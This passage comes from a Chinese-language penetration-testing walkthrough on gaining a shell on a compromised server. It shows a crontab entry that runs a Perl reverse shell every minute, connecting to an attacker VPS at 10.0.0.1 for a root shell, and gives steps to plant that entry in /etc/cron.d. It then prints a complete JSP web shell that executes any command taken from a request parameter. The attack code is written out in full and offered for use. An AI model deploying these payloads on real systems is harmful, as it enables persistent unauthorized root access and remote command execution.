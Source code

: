 之后直接ssh登录即可。


## 方法三
利用定时器，自动化弹shell；<br />注意，换行一定要\n，不能是\r\n，否则crontab执行会失败；

这里利用perl语言写的反弹到VPS上；
```javascript
*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
```

crontab格式：
```javascript
minute   hour   day   month   week   command     顺序：分 时 日 月 周 命令
星号（*）：代表所有可能的值；
文件写至`/etc/crontab.d/`中；
具体参考：http://wangchujiang.com/linux-command/c/crontab.html

每1分钟执行一次command：
* * * * * command
```

上传
![image.png](_img/assets/1659514316353-b05e4509-c3f3-45d4-bc9d-dea947436e88.png)

移动cron文件到/etc/cron.d/root
![image.png](_img/assets/1659514330080-4eec57a3-03a7-4122-a46c-b4e160c164cc.png)

等会即可拿到反弹结果；
![image.png](_img/assets/1659514356319-a5cbbd63-dec8-4a62-8045-7febbdc171db.png)

由于是root运行的服务，这里才可写crotab，拿到的shell权限也为root；<br />如果非root启动，此方法同写入SSH一样


# 0X05 木马
浏览器访问：
```javascript
<%@ page import="java.io.*" %>
  <%
  try {
    String cmd = request.getParameter("cmd");
    Process child = Runtime.getRuntime().exec(cmd);
    InputStream in = child.getInputStream();
    int c;
    while ((c = in.read()) != -1) {
      out.print((char)c);
    }
    in.close();
    try {
      child.waitFor();
    } catch (InterruptedException e) {
      e.printStackTrace();
    }
  } catch (IOException e) {
    System.err.println(e);
  }
%>
```
